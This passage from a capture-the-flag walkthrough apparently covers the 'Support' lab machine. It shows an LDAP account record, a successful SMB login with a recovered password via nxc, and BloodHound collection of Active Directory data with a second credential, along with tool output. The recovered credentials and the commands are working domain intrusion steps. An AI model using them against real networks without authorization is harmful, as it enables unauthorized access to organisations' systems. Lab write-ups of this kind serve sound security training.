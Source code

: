 ```
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 1
codePage: 0
countryCode: 0
badPasswordTime: 133987630037607318
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
<SNIP>
```
Trying out the password it worked
```
nxc smb 10.10.11.174 -u support -p Ironside47pleasure40Watchful                                  
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
```
## Bloodhound
With that information I decided to dump `bloodhound` data with `bloodhound-python` and analyze it with bloodhound
```
bloodhound-python -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -c All --zip -ns 10.10.11.174     
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: support.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 57S
INFO: Compressing output into 20250804064551_bloodhound.zip
```
Looking at `ldap` I don't see anything interesting 
